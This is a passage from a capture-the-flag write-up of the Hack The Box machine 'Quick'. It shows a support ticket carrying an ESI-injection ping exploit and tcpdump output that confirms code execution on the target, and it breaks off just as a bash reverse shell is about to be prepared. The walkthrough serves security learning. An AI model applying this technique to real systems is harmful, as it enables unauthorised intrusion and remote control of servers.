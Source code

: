 Creating a ticket with the ping POC exploit.

![Ticket Number](/assets/htb/Quick/exploit-ticket-submitted.png)

After creating a ticket we get a ticket number, we can use to search our ticket. 

![Ping exploit triggered](/assets/htb/Quick/exploit-ping-triggered.png)

Upon searching the ticket the ESI-Injection should be triggered.
```bash
root@darkness:~# tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
21:27:09.712850 IP portal.quick.htb > darkness: ICMP echo request, id 2821, seq 1, length 64
21:27:09.712886 IP darkness > portal.quick.htb: ICMP echo reply, id 2821, seq 1, length 64
21:27:10.718514 IP portal.quick.htb > darkness: ICMP echo request, id 2821, seq 2, length 64
21:27:10.718545 IP darkness > portal.quick.htb: ICMP echo reply, id 2821, seq 2, length 64
21:27:11.717658 IP portal.quick.htb > darkness: ICMP echo request, id 2821, seq 3, length 64
21:27:11.717674 IP darkness > portal.quick.htb: ICMP echo reply, id 2821, seq 3, length 64
21:27:12.717071 IP portal.quick.htb > darkness: ICMP echo request, id 2821, seq 4, length 64
21:27:12.717088 IP darkness > portal.quick.htb: ICMP echo reply, id 2821, seq 4, length 64
```
Successfully verifying code-execution by getting a ping-back response.

## Getting shell
Let us prepare the exploit to get us a reverse-shell.
First, a bash-reverse-shell is prepared:
